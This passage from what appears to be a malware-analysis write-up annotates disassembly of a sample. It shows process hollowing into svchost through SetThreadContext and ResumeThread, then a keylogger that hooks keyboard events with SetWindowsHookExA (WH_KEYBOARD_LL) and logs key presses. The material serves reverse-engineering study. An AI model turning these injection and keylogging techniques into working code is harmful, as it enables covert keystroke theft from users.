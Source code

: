 And the context of the new thread is also updated so the `entrypoint` value is valid:

```
.text:004012DB      mov     eax, [ebp+IMAGE_NT_HEADER_payload]
.text:004012DE      mov     ecx, [ebp+destination]
.text:004012E1      add     ecx, [eax+IMAGE_NT_HEADERS32.OptionalHeader.AddressOfEntryPoint]
.text:004012E4      mov     edx, [ebp+lpContext]
.text:004012E7      mov     [edx+CONTEXT._Eax], ecx ; update thread entrypoint
.text:004012ED      mov     eax, [ebp+lpContext]
.text:004012F0      push    eax             ; lpContext
.text:004012F1      mov     ecx, [ebp+ProcessInformation.hThread]
.text:004012F4      push    ecx             ; hThread
.text:004012F5      call    ds:SetThreadContext
```

The payload is now ready to be executed, and the main thread of the hijacked process is resumed:

```
.text:004012FB      mov     edx, [ebp+ProcessInformation.hThread]
.text:004012FE      push    edx             ; hThread
.text:004012FF      call    ds:ResumeThread ; starts at payload entrypoint
```

## Keylogger

### Hooking keyboard events

The payload injected into `svchost`{: .filepath} is a keylogger. it starts by registering a callback on all keyboard events:

```
.text:00401053      push    eax             ; hmod
.text:00401054      push    offset fn       ; lpfn
.text:00401059      push    WH_KEYBOARD_LL  ; idHook
.text:0040105B      call    ds:SetWindowsHookExA
.text:00401061      mov     [ebp+hhk], eax
``` 

According the the MSDN, when the parameter `idHook` has the value `WH_KEYBOARD_LL`, the hook procedure installed is a [LowLevelKeyboardProc](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/legacy/ms644985(v=vs.85)) callback:

```c
LRESULT CALLBACK LowLevelKeyboardProc(
  _In_ int    nCode,  // if 0, wParam and lParam contain information about a keyboard message
  _In_ WPARAM wParam, // identifier of the keyboard message
  _In_ LPARAM lParam // KBDLLHOOKSTRUCT*
);
```

So, the callback triggered on keyboard events starts as follow:

```
.text:00401089      cmp     [ebp+code], HC_ACTION ;
.text:0040108D      jnz     short skip          ; skip if no info
.text:0040108F      cmp     [ebp+wParam], WM_SYSKEYDOWN
.text:00401096      jz      short key_pressed
.text:00401098      cmp     [ebp+wParam], WM_KEYDOWN
.text:0040109F      jnz     short pass_to_next_hook
.text:004010A1 key_pressed:
.text:004010A1      mov     eax, [ebp+lParam]   ; KBDLLHOOKSTRUCT *
.text:004010A4      mov     ecx, [eax+KBDLLHOOKSTRUCT.vkCode]
.text:004010A6      push    ecx                 ; Buffer
.text:004010A7      call    LogInput            ; 0x4010C7
.text:004010AC      add     esp, 4
```
